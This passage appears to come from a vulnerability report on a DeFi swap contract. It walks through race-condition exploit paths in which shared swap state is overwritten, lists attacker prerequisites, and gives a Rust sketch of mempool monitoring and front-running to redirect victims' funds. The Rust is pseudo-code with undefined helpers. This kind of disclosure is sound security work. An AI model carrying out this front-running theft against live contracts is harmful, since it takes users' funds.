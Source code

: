 ### Proof of Exploit Path 2: Direct Race Condition

```
Mempool/Same Block:
1. Victim submits: SwapMinOutput(10,000 USDT → INJ)
2. Attacker monitors mempool
3. Attacker submits: SwapMinOutput(1 USDT → ATOM) with higher gas
4. Block Producer orders: Attacker's tx first, then Victim's tx

Execution in Block:
5. Attacker's tx: Writes SWAP_OPERATION_STATE = {sender: attacker, ...}
6. Attacker's tx: Creates SubMsg, enters reply wait
7. Victim's tx: Overwrites SWAP_OPERATION_STATE = {sender: victim, funds: 10000}
8. Attacker's reply: Loads victim's state, processes victim's funds
9. Funds sent to attacker's address or corrupted state causes fund loss
```

### Proof of Exploit Path 3: Multi-Step Swap Interruption

```
1. User A: SwapMinOutput(ETH → USDT → INJ) [3-step swap]
2. Step 1 completes: ETH → USDT successful
3. State updated: STEP_STATE = {step_idx: 1, balance: USDT}
4. User B: SwapMinOutput(ATOM → OSMO) [overwrites state]
5. User A's Step 2 reply: Loads User B's state
6. Funds misdirected or lost
```

### Prerequisites:
- Ability to submit transactions (any account)
- Basic understanding of contract's swap functions
- Optional: MEV capabilities for guaranteed ordering

## 🎯 Exploit Scenario

### Realistic Attack Implementation:

```rust
// Attacker monitors for large swaps and exploits state vulnerability
async fn exploit_swap_vulnerability() {
    // Step 1: Monitor mempool for large swaps
    let victim_tx = monitor_mempool_for_swaps().await;
    
    // Step 2: Craft exploitation transaction
    let exploit_msg = ExecuteMsg::SwapMinOutput {
        target_denom: "inj".to_string(),
        min_output_quantity: FPDecimal::from(1u128),
    };
    
    // Step 3: Submit with higher gas to front-run
    let tx = Transaction {
        msg: exploit_msg,
        gas_price: victim_tx.gas_price + 1,
        funds: coins(1, "uatom"),
    };
    
    // Step 4: If victim's SubMsg fails, attacker's next swap inherits state
    // Or if ordering succeeds, reply handlers process mixed state
    broadcast_transaction(tx).await;
    
    // Step 5: Profit from stolen funds
}
```
